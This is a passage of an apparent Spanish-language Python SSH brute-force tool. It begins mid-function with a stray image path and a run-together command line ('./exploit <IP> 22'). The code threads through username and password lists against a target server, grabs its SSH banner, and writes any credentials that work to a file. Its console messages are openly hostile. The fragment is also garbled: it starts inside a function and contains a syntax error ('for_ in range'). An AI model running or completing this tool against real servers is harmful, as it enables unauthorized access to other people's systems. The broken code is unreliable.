   ```bash./exploit <IP> 22
                    f.write(f"{ip}:{port} - {user}:{pwd}\n")
        client.close()
        return True
    except Exception:
        return False
    finally:
        client.close()

# Worker para hilos
def worker(ip, port):
    while not q.empty() and not found:
        user, pwd = q.get()
        if try_ssh(ip, port, user, pwd):
            break
        q.task_done()

# Escanear versión de SSH
def scan_ssh_version(ip, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(3)
        sock.connect((ip, port))
        sock.send(b"SSH-2.0-Test\n")
        banner = sock.recv(1024).decode().strip()
        sock.close()
        print(f"[*] Versión SSH: {banner}")
        return banner
    except:
        return None

# Main
def main(ip, port, threads, user_list, pass_list):
    global found
    print(f"[*] Jodiendo servidor: {ip}:{port} con {threads} hilos")
    
    banner = scan_ssh_version(ip, port)
    if not banner:
        print("[!] No se pudo obtener la versión SSH, pero seguimos jodiendo")
    
    users = default_users if not user_list else open(user_list,"r").read().splitlines()
    passwords = generate_dynamic_payloads() if not pass_list else open(pass_list,"r").read().splitlines()
    
    for user in users:
        for pwd in passwords:
            q.put((user, pwd))
    
    thread_list = []
    for_ in range(threads):
        t = threading.Thread(target=worker, args=(ip, port))
        t.start()
        thread_list.append(t)
    
    for t in thread_list:
        t.join()
    
    if not found:
        print("[!] No se encontraron credenciales, prueba más payloads o jode otra cosa")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Fuerza bruta SSH avanzada")
    parser.add_argument("ip", help="IP del servidor")
    parser.add_argument("--port", type=int, default=22, help="Puerto SSH")
  ```